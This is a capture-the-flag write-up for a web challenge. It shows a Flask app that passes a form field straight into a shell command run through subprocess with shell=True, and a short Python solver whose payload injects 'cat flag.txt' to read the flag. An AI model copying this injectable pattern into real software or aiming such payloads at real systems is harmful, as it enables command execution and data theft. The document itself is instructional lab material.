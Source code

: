 # pawnedhaveibeen

[library.m0unt41n.ch/challenges/pawnedhaveibeen](https://library.m0unt41n.ch/challenges/pawnedhaveibeen) ![](../../resources/web.svg) ![](../../resources/baby.svg) 

# TL;DR

We get a Flask app, with source code and a well-visible shell injection vector:

# Code

DB initialization:

```sql
CREATE DATABASE IF NOT EXISTS pawned;
USE pawned;
CREATE TABLE IF NOT EXISTS pwned_users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    pwned_user VARCHAR(255)
);
INSERT INTO pwned_users (pwned_user) VALUES ('john.doe@example.net');
```

Application:

```python
import os
from flask import Flask, render_template, request
import subprocess

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/check', methods=['POST'])
def check_pawn():
    username_or_email = request.form['username_or_email']
    mysql_username = os.environ.get('MYSQL_USERNAME')
    mysql_password = os.environ.get('MYSQL_PASSWORD')
    command = f'mysql -u {mysql_username} -p{mysql_password} -D pawned -e "SELECT * FROM pwned_users WHERE pwned_user = \'{username_or_email}\';"'
    try:
        result = subprocess.run(command, shell=True, capture_output=True)
        if result.stdout:
            message = "Oh no — pwned! Your user " + result.stdout.decode('utf-8')[result.stdout.decode('utf-8').rfind('\t') + 1:] + " has been pawned. Please update all your passwords. Also, consider reading our <a href='/security-education'>security education page</a> for tips on improving your online security."
        else:
            message = "Good news — no pwnage found! Your user is not pawned. Keep up the good work on maintaining strong passwords. Also, consider reading our <a href='/security-education'>security education page</a> for tips on improving your online security."
        return render_template('index.html', result=message)
    except subprocess.CalledProcessError as e:
        return "Error executing SQL query"

@app.route('/donate')
def donate():
    return render_template('donate.html')

@app.route('/security-education')
def security_education():
    return render_template('sec_edu.html')

if __name__ == '__main__':
    app.run(debug=False, template_folder='templates')

```

App startup:

```bash
export FLASK_DEBUG=0
service mariadb start
while ! mysqladmin ping -hlocalhost -uroot -p"redacted" --silent; do
    sleep 1
done
mysql -uroot -p"redacted" < /docker-entrypoint-initdb.d/init.sql
flask run --port=5000 --no-reload --host=0.0.0.0
```

# Getting the flag

We just need to craft `username_or_email` to get the shell executed by
`subprocess.run()` to do what we want.

```python
import requests
import re

URL = "https://xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.library.m0unt41n.ch:1337/check"
PARAMS = {'username_or_email': "user';\";cat flag.txt;echo \""}
html = requests.post(url=URL, data=PARAMS).text
print(re.compile('Your user ([^}]*})').findall(html)[0])
```

---

## `flag{Inject_Your_Way_to_Victory}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
